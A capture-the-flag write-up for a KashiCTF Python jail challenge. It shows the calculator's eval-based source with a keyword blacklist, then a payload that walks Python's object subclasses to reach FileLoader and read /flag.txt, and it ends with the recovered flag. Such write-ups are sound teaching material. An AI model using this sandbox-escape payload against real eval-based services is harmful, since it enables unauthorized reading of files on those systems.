 Cont of [[Easy Jail]], another pyjail challenge.

```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else : 
			calc(inp)

if __name__ == '__main__':
	main()
```

Most of the challenge logic still follows [[Easy Jail]]. But there are a few differences...

- `BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]`
	- Here we are blacklisted from using things like `import` or `open` to read the flag so we need to pivot from here
- `if any(bad in inp for bad in BLACKLIST) :`
	- This is how the blacklist is being enforced

Now I started off with `().__class__.__bases__[0].__subclasses__()` to see what we could use. There were 2 types of things we need to look for.
- Something to execute commands
- Something to read files

Now from that command we found the `<class '_frozen_importlib_external.FileLoader'>`. This is a pretty useful class to read from files. 
 
My final payload:
```python
next(x for x in ().__class__.__bases__[0].__subclasses__() if "FileLoader" in str(x))("/flag.txt", "").get_data("/flag.txt")
```

To import the function, I used `x for x in ().__class__.__bases__[0].__subclasses__()` and then the rest of it I used the `FileLoader` to read <u>flag.txt</u>.

Flag:  `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_j1W17CtT}`

